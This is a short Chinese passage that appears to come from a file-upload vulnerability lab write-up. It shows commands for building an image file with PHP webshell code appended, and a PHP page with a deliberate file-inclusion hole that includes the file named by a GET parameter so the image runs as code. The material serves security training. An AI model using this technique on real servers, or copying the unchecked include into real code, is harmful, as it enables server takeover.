 
解题思路：

```php
通过读文件的前2个字节判断文件类型，因此直接上传图片马即可，制作图片马：
Windows系统：copy 22.jpg /b + 1.php /a shell.jpg
Linux系统：echo "一句话木马" >> 1.jpg
```

![image-20220101153217581](image/文件上传漏洞/image-20220101153217581.png)

直接访问图片并不能把图片当做PHP解析，因此还需要利用文件包含漏洞

```php
<?php
/*
本页面存在文件包含漏洞，用于测试图片马是否能正常运行！
*/
header("Content-Type:text/html;charset=utf-8");
$file = $_GET['file'];
if(isset($file)){
    include $file;
}else{
    show_source(__file__);
}
?>
```

![image-20220101153356578](image/文件上传漏洞/image-20220101153356578.png)
